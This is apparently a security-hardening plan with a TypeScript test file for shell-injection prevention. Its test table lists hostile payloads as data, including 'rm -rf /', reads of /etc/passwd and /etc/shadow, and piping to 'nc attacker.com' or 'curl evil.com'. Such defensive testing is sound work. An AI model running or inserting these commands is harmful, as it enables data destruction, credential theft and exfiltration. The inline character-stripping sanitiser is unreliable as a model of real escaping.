 # 🔐 WORKSTREAM 1: SECURITY HARDENING

## Mission
Eliminate all security vulnerabilities through comprehensive testing of authentication, authorization, input validation, and attack prevention mechanisms.

## 🎯 Objectives
- Add 50+ security-focused tests
- Fix shell injection vulnerabilities in git_pr.ts
- Implement secret masking validation
- Prevent path traversal attacks
- Add SSRF protection tests

## 📁 Files to Create

### 1. `tests/unit/security/shell-injection.test.ts`

```typescript
/**
 * Shell Injection Prevention Tests
 * Critical: git_pr.ts uses spawnSync with user input
 */

describe('Shell Injection Prevention', () => {
  describe('git_pr.ts command execution', () => {
    test.each([
      ['"; rm -rf /', 'command injection attempt'],
      ['`cat /etc/passwd`', 'backtick injection'],
      ['$(whoami)', 'command substitution'],
      ['| nc attacker.com 1234', 'pipe injection'],
      ['&& curl evil.com', 'command chaining'],
      ['; shutdown -h now', 'semicolon injection'],
      ['> /dev/null; cat /etc/shadow', 'redirect injection'],
      ['--version; ls -la', 'argument injection']
    ])('blocks %s (%s)', async (payload, description) => {
      // Test implementation here
      const sanitize = (cmd: string) => {
        // Must escape shell metacharacters
        return cmd.replace(/[;&|`$(){}[\]<>]/g, '');
      };

      const result = sanitize(payload);
      expect(result).not.toContain(';');
      expect(result).not.toContain('|');
      expect(result).not.toContain('`');
    });
  });

  describe('spawnSync safety', () => {
    test('uses array arguments, not shell: true', () => {
      // Verify spawnSync never uses shell: true
      const execCommand = (cmd: string, args: string[]) => {
        return spawnSync(cmd, args, {
          shell: false, // CRITICAL: must be false
          stdio: 'pipe'
        });
      };

      expect(() => execCommand('ls', ['-la'])).not.toThrow();
    });
```